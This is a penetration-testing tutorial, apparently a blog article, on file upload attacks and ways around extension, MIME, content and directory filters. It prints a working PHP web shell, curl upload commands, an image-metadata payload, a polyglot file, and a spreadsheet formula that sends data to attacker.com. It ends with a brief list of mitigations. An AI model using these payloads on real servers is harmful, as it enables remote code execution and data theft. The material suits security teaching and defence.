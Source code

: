 ```yaml
---
layout: article
title: "File Upload Attacks & Bypass Techniques"
date: 2025-03-18
categories: Web security
tags: security web tutorials penetration-testing best-practices file-upload
---
```


# **File Upload Attacks & Bypass Techniques**

File upload vulnerabilities arise when a server improperly handles user-uploaded files. Below are common file upload attack techniques categorized by the filtering methods they attempt to bypass.

---

## **1. No Filtering (Direct Execution)**
- **Attack:** Uploading a malicious executable file (e.g., `.php`, `.jsp`, `.exe`, `.sh`) and executing it.
- **Bypass:** No need for bypass; just upload a web shell.

### **Example: Basic PHP Web Shell**
```php
<?php system($_GET['cmd']); ?>
```
**Usage:** `http://example.com/uploads/shell.php?cmd=id`

---

## **2. Extension-Based Filtering**  
- **Filter:** Only allows specific extensions (e.g., `.jpg`, `.png`, `.pdf`).  
- **Bypass Techniques:**
  - **Double Extensions:** `shell.php.jpg`
  - **Case Manipulation:** `SHELL.PhP`
  - **Null Byte Injection:** `shell.php%00.jpg` (older PHP versions)
  - **MIME Type Spoofing:** Modifying request headers (e.g., `Content-Type: image/png`)
  - **Polyglot Files:** Embedding executable code in valid images/PDFs.

### **Example: Spoofing MIME Type with Burp Suite**
Modify the request before submission:
```http
POST /upload HTTP/1.1
Content-Type: image/png

[shell.php content]
```

---

## **3. MIME Type Filtering**  
- **Filter:** Server checks MIME type in headers (`image/jpeg`, `application/pdf`).  
- **Bypass Techniques:**
  - **Tampering with HTTP Headers** using Burp Suite.
  - **Using File Upload APIs Incorrectly** (some apps trust the client-side MIME check).

### **Example: Uploading Malicious File via `curl`**
```bash
curl -F 'file=@shell.php;type=image/png' http://example.com/upload
```

---

## **4. Content-Based Filtering**  
- **Filter:** Server inspects file content for malicious code.  
- **Bypass Techniques:**
  - **Encoding Payloads:** Base64, gzip, or hex encoding.
  - **Obfuscation:** Breaking patterns (e.g., `<?p\h\p eval($_GET['cmd']); ?>`)
  - **Appending Fake Image Headers:** Embedding PHP payload inside an image.

### **Example: PHP Code in Image Metadata**
```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
```

---

## **5. Directory Restriction (Upload Location)**  
- **Filter:** Files are uploaded to a non-executable directory.  
- **Bypass Techniques:**
  - **Path Traversal:** `../../var/www/html/shell.php`
  - **Symlink Attack:** Linking an allowed file type to a malicious script.
  - **Race Condition:** Uploading a safe file and quickly replacing it.

### **Example: Symlink Attack**
```bash
ln -s /var/www/html/shell.php safe.jpg
```

---

## **6. Client-Side Validation (JavaScript-Based)**  
- **Filter:** JavaScript checks file extension or size before submission.  
- **Bypass Techniques:**
  - **Disable JavaScript** in browser dev tools.
  - **Modify HTTP Request** using Burp Suite.
  - **Use a Custom Upload Script** (`curl`, `requests` in Python).

### **Example: Uploading Directly via `curl`**
```bash
curl -F 'file=@shell.php' http://example.com/upload
```

---

## **7. Image-Only Uploads (Strict Validation)**  
- **Filter:** Server verifies image integrity (`exif_imagetype()`, `getimagesize()`).  
- **Bypass Techniques:**
  - **Appending PHP Payload to Image Metadata:** `exiftool`
  - **Embedding Payload in Image Data:** Steganography.
  - **Leveraging Weak Parsers:** Manipulating image files.

### **Example: JPEG Polyglot (PHP + Image Header)**
```php
GIF89a;
<?php system($_GET['cmd']); ?>
```
---

## **8. Cloud Storage (S3, Google Drive, etc.)**  
- **Filter:** Files are stored separately with no execution permissions.  
- **Bypass Techniques:**
  - **Signed URL Hijacking:** Using pre-signed URLs for unauthorized access.
  - **XSS via File Preview:** Uploading JavaScript-embedded HTML/CSV files.

### **Example: XSS via CSV Upload**
```csv
=IMPORTXML("http://attacker.com/?cookie="&ENCODEURL(A1))
```
---

## **Mitigation Strategies**
✅ **Server-Side Validation:** Always check the file type and contents on the server.  
✅ **Use Safe Storage Locations:** Store uploads outside webroot.  
✅ **Strict MIME and Content Filtering:** Don’t rely on extensions alone.  
✅ **Disable Script Execution:** Block execution in upload directories.  
✅ **Randomized Filenames:** Prevent attackers from predicting and accessing files.

---
# YouTube Video

Check out this awesome videos:

<iframe width="560" height="315" 
        src="https://www.youtube.com/embed/ZWG1nNdUnBc" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>

💡 **Pro Tip:** Always test for multiple bypass techniques—many real-world applications fail at multiple levels. 🚀
